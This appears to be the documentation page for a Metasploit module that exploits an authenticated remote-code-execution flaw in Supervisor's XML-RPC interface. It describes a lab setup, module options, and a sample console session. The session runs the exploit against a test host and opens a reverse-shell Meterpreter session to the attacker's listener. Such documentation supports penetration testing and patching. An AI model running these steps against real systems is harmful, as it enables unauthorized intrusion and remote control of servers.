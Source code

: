 ## Vulnerable Application

  This module exploits an authenticated RCE vulnerability in Supervisor versions 3.0a1 to 3.3.2
  
  This has been tested with versions 3.2.0 and 3.3.2

### Creating A Testing Environment

  At the time of writing, version 3.2.0-2ubuntu0.1 is available in the Ubuntu repositories.

  1. ```sudo apt-get install supervisor```
  2. Enable Web interface/XML-RPC server in Supervisor config in `/etc/supervisor/supervisord.conf`

    ```
    [inet_http_server]         ; inet (TCP) server disabled by default
    port=:9001        ; ip_address:port specifier, *:port for all iface
    username=user              ; default is no username (open server)
    password=123               ; default is no password (open server)
    ```

  3. Restart the service: `sudo service supervisor restart`

## Verification Steps

  1. ```use exploit/linux/http/supervisor_xmlrpc_exec```
  2. ```set lhost [IP]```
  3. ```set rhost [IP]```
  4. ```set httpusername user```
  5. ```set httppassword 123```
  6. ```exploit```
  7. A meterpreter session should have been opened successfully

## Options

  **HttpUsername**

  Username for HTTP basic auth which is set in the conf file(optional)

  **HttpPassword**

  Password for HTTP basic auth which is set in the conf file(optional)

  **TARGETURI**

  The path to the XML-RPC endpoint

## Scenarios

### Supervisor 3.2.0 on Xubuntu 16.04

```
msf > use exploit/linux/http/supervisor_xmlrpc_exec 
msf exploit(supervisor_xmlrpc_exec) > set httpusername user
httpusername => user
msf exploit(supervisor_xmlrpc_exec) > set httppassword 123
httppassword => 123
msf exploit(supervisor_xmlrpc_exec) > set lhost 192.168.0.2
lhost => 192.168.0.2
msf exploit(supervisor_xmlrpc_exec) > set rhost 192.168.0.19
rhost => 192.168.0.19
msf exploit(supervisor_xmlrpc_exec) > check 

[*] Extracting version from web interface..
[*] Using basic auth (user:123)
[+] Vulnerable version found: 3.2.0
[*] 192.168.0.19:9001 The target appears to be vulnerable.
msf exploit(supervisor_xmlrpc_exec) > exploit 

[*] Started reverse TCP handler on 192.168.0.2:4444 
[*] Sending XML-RPC payload via POST to 192.168.0.19:9001/RPC2
[*] Using basic auth (user:123)
[*] Sending stage (2878872 bytes) to 192.168.0.19
[*] Command Stager progress - 100.00% done (782/782 bytes)
[+] Request timeout, usually indicates success. Passing to handler..
[*] Meterpreter session 1 opened (192.168.0.2:4444 -> 192.168.0.19:36186) at 2017-08-30 01:24:45 +0100

meterpreter > 
```
